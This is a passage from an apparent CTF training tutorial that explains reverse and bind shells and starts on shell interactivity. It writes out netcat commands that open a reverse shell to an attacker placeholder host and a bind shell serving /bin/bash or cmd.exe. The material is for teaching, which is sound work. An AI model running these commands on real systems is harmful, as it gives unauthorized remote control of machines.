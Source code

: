 As a general rule, reverse shells are easier to execute and debug, however, we will cover both examples below. Don't worry too much about the syntax here: we will be looking at it in upcoming tasks. Instead notice the difference between reverse and bind shells in the following simulations.

**Reverse Shell example:**

Let's start with the more common reverse shell.

Nine times out of ten, this is what you'll be going for -- especially in CTF challenges like those of TryHackMe.

Take a look at the following image. On the left we have a reverse shell listener -- this is what receives the connection. On the right is a simulation of sending a reverse shell. In reality, this is more likely to be done through code injection on a remote website or something along those lines. Picture the image on the left as being your own computer, and the image on the right as being the target.

On the attacking machine: `sudo nc -lvnp 443`

On the target: `nc <LOCAL-IP> <PORT> -e /bin/bash`

![](https://i.imgur.com/rN7YkJJ.png)

Notice that after running the command on the right, the listener receives a connection. When the whoami command is run, we see that we are executing commands as the target user. The important thing here is that we are listening on our own attacking machine, and sending a connection from the target.

**Bind Shell example:**

Bind shells are less common, but still very useful.

Once again, take a look at the following image. Again, on the left we have the attacker's computer, on the right we have a simulated target. Just to shake things up a little, we'll use a Windows target this time. First, we start a listener on the target -- this time we're also telling it to execute `cmd.exe`. Then, with the listener up and running, we connect from our own machine to the newly opened port.

On the target: `nc -lvnp <port> -e "cmd.exe"`

On the attacking machine: `nc MACHINE_IP <port>`

![](https://i.imgur.com/6GUwZsw.png)

As you can see, this once again gives us code execution on the remote machine. Note that this is not specific to Windows.

The important thing to understand here is that we are listening on the target, then connecting to it with our own machine.

The final concept which is relevant in this task is that of interactivity. Shells can be either interactive or non-interactive.

* Interactive: If you've used Powershell, Bash, Zsh, sh, or any other standard CLI environment then you will be used to interactive shells. These allow you to interact with programs after executing them. For example, take the SSH login prompt:

    ![](https://i.imgur.com/0ayLj8L.png)
